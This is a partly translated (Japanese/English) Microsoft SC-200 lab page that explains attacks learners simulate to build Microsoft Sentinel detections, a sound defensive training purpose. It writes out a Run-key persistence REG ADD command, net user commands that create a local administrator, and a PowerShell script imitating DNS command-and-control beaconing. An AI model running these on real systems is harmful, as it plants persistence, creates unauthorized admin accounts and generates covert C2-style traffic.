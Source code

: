 ```yaml
---
lab:
  title: 演習 5 - 検出モデリングを理解する
  module: Module 7 - Create detections and perform investigations using Microsoft Sentinel
---
```


# <a name="module-7---lab-1---exercise-5---understand-detection-modeling"></a>モジュール 7 - ラボ 1 - 演習 5 - 検出モデリングを理解する

![ラボの概要。](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex4.png)
### <a name="task-1-understand-the-attacks"></a>タスク 1:攻撃を理解する

><bpt id="p1">**</bpt>Important: You will perform no actions in this exercise.<ept id="p1">**</ept>  These instructions are only an explanation of the attacks you will perform in the next exercise. Please carefully read this page.

攻撃パターンは、オープン ソース プロジェクトに基づいています。 https://github.com/redcanaryco/atomic-red-team


#### <a name="attack-1---persistence-with-registry-key-add"></a>攻撃 1 - レジストリ キーの追加による永続性

Attackers will add a program in the Run Registry key. This achieves persistence by making the program run every time the user logs on.

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### <a name="attack-2---user-add-and-elevate-privilege"></a>攻撃 2 - ユーザーが特権を追加および昇格

Attackers will add new users and elevate the new user to the Administrators group. This enables the attacker to logon with a different account that is privileged.

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### <a name="attack-3---dns--c2"></a>攻撃 3 - ドメイン ネーム サービスおよびコマンド & コントロール 

Attacker will send a large volume of DNS queries to a command and control (C2) server. The intent is to trigger threshold-based detection on the number of DNS queries either from a single source system or to a single target domain.

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### <a name="task-2-understand-detection-modeling"></a>タスク 2:検出モデリングの理解

このラボで使用されている攻撃検出構成サイクルは、2つの特定のデータソースのみに焦点を当てている場合でも、すべてのデータソースを表します。

To build a detection, you first start with building a KQL statement. Since you will attack a host, you will have representative data to start building the KQL statement.


KQL ステートメントを取得したら、分析ルールを作成します。

ルールがトリガーされてアラートとインシデントが作成されたら、調査を行って、セキュリティ オペレーション アナリストの調査に役立つフィールドを提供しているかどうかを判断します。

次に、分析ルールにその他の変更を加えます。

>**注:**  一部のアラートは、ラボの目的のためだけに、より短い時間枠でトリガーされます。

## <a name="proceed-to-exercise-6"></a>演習 6 に進みます
